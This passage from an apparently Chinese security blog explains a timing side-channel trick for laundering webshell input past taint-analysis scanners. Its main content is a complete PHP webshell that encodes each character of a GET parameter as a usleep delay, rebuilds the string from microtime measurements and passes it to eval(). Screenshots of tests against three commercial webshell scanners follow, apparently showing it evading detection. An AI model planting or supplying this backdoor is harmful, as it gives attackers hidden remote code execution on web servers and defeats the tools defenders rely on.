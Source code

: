 ```shell
```
可以看到，通过时间的测量，我们可以把一个三位的密钥变成三个一位密钥，大大节省了尝试的时间。
那么大致了解了简单的侧信道知识。我们是不是可以利用这个侧信道思路恢复我们的输入。
#### microtime
所以，侧信道思路就是：传入的source参数可以拆分成acsii，然后使用microtime来延时相对应的ascii时间，然后测量这个时间，通过获取程序执行的时间来恢复参数，从而得到一份干净的数据，然后送去sink
```php
<?php 
$temp = $_GET['a']; //source 
$test = new SplQueue();
$time_stack = new SplQueue();

for($i=0;$i < strlen($temp);$i++)
{
    $test->enqueue(ord($temp[$i]));//获取ascii存入队列，source
}
while(1)
{
    if(($test->isEmpty()))//source
    {
        break;
    }
    
    $start = microtime(true);//干净的
    usleep(($test->dequeue())*20000);// ascii 1毫秒   source
    // $end = microtime(true); //干净的
    $end = microtime(true); //干净的

    $test->next();
    $timesta = ceil(($end - $start)*1000);//干净的
    $time_stack->enqueue(ceil(($timesta / 2) /10) - 1);//干净的
}
$hahh = "";
while(!($time_stack->isEmpty()))
{
    $caaaa = $time_stack->dequeue();
    $hahh .= chr($caaaa);
    $time_stack->next();
}

eval($hahh);
  ?>
```
值得注意的是，像我们之前说过，侧信道测量是会有误差的，所以这个sleep的时间必须多测几次，测出一个能恢复的延迟时间，在我Win本地以及Linux远程服务器，`usleep(($test->dequeue())*20000)`  这个是能恢复正确的ascii的，不排除存在极端情况无法恢复。
##### 测试情况
伏魔
![image-20220210162819275](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162819275.png)
河马查杀1.8.2
![image-20220210162833817](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162833817.png)
长亭牧云
![image-20220210162841721](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162841721.png)
